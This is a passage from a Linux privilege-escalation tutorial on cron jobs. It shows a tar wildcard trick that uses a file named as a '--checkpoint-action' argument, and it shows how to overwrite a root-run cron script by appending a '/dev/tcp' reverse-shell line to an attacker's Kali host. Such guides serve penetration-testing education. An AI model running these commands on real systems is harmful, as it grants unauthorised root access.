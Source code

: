     ```
    touch /home/user/--checkpoint-action=exec=sh\ shell.sh
    ```

    After setting up the tar checkpoint and checkpoint action, we need to wait a few minutes for the cron job to be invoked, after which we should receive an elevated reverse shell on our Netcat listener.

#### Escalation via cron file overwrites[​](broken-reference) <a href="#escalation-via-cron-file-overwrites" id="escalation-via-cron-file-overwrites"></a>

Another technique we can leverage to elevate our privileges is the ability to overwrite the content of scripts that are used by cron jobs. The success and viability of this technique will depend on whether we have thenecessary permissions to write or make changes to the script or file being runby the cron job.

This technique can be performed by following these steps:

1.  The first step in this process involves identifying a cron job that executes a script orbinary with read and write permissions as the root user. In this case, we can identifya cron job that runs the `overwrite.sh` script when invoked.

    ```
    * * * * * root overwrite.sh
    ```
2.  In this case, we do not find the `overwrite.sh` script in the user account's homedirectory. As a result, we can search for the script in the other directories specifiedin the `$PATH` variable. This can be done by listing the contents of each directory, as follows:

    ````
    ```
    ls -al /usr/local/bin | grep overwrite.sh
    ```

    Alternatively, you can use the locate utility to search for the overwrite.sh
    script by running the following command:
    ```
    locate overwrite.sh
    ```
    In this case, we will find the file under the `/usr/local/bin` directory.
    ````
3.  The next step involves identifying the permissions of the `overwrite.sh` todetermine whether we can make changes or overwrite the content of the script.

    ```
    ls -al /usr/local/bin | grep overwrite.sh
    ```

    In this case, we can determine that the script has read and write permissions. As aresult, we can make changes or overwrite the file with our own commands.
4.  Now, let's add a bash command that will provide us with a reverse shell to the overwrite.sh script.

    ```
    echo "bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1" >> /usr/local/bin/overwrite.sh
    ```
5.  Once we have appended the bash command, we will need to set up a reverse listener with Netcat.
